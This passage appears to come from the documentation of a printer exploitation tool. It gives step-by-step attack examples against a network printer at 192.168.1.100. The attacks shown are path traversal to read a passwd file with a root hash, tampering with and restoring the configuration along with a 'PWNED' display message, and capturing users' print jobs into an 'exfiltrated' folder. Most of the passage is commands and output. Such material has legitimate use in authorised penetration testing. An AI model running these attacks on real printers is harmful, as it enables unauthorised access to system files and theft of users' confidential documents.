 ```bash
# Verify vulnerability
$ cat passwd
root:$6$encrypted_hash:0:0:root:/root:/bin/sh
```

**Impact:**
- Access to system files outside printer filesystem
- Potential privilege escalation
- Configuration file disclosure

---

### Example 6: Configuration Backup Attack

**Scenario**: Backup, modify, and restore configuration

```bash
# Step 1: Backup original configuration
192.168.1.100:/> backup original.bak

Configuration backed up to original.bak

# Step 2: Modify settings
192.168.1.100:/> set TIMEOUT=999
192.168.1.100:/> set COPIES=100
192.168.1.100:/> display "PWNED"

# Step 3: Verify changes
192.168.1.100:/> variables

TIMEOUT=999
COPIES=100

# Step 4: Restore if needed
192.168.1.100:/> restore original.bak
```

---

## 💥 Attack Examples

### Example 7: Print Job Capture

**Scenario**: Capture all print jobs for analysis

```bash
# Step 1: Enable job retention
192.168.1.100:/> hold

Job retention enabled

# Step 2: Enable capture mode
192.168.1.100:/> capture

Capture mode enabled. All jobs will be saved to exfiltrated/

# Step 3: Wait for print jobs
# (User sends print job from computer)

# Step 4: Check captured jobs
$ ls exfiltrated/
captured_job_001.ps
captured_job_002.pdf
captured_job_003.pcl

```